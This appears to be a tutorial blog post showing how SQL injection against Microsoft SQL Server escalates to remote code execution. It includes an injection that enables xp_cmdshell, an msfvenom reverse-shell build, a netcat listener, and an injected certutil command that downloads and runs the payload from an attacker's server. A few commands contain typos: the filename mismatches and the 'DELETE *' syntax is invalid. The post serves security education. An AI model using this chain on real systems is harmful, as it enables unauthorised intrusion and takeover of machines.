 ```yaml
---
layout: post
title: From SQLi to remote code execution
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the entire target machine.

There are more variants of how to gain this in different Database Management Systems (DBMS) and platforms. For this article, I'll show how an attacker might do this in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL statement an application makes to the database. SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, I will illustrate a marketplace built with PHP that allows users to delete one of their products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```
DELETE * FROM products WHERE id = '$productId'; 
```
A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate this input, it results in the following query. Doing this triggers the deletion of all products:

```
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk. 
For good reasons, this functionality is by default disabled on the production server. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
Sometimes, xp_cmdshell can be enabled via `EXEC` queries if the user has:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Obtaining RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (**rshell.exe**) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to a listener on our machine.


> [!NOTE]
> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool MSFVenom, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=4444 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
To serve this file, I will start a Python server:

```
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 4444

```
nc -lnvp 4444
```

### Forth and fifth step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshel.exe C:\Windows\Temp\rshel.exe'; --
```

I checked my Python server's output:

```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshel.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file. Now, if everything goes well, my Netcat listener should have a reverse shell connection:

```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success! I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface. It highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## References
- tryhackme.com
- www.w3schools.com
- portswigger.net
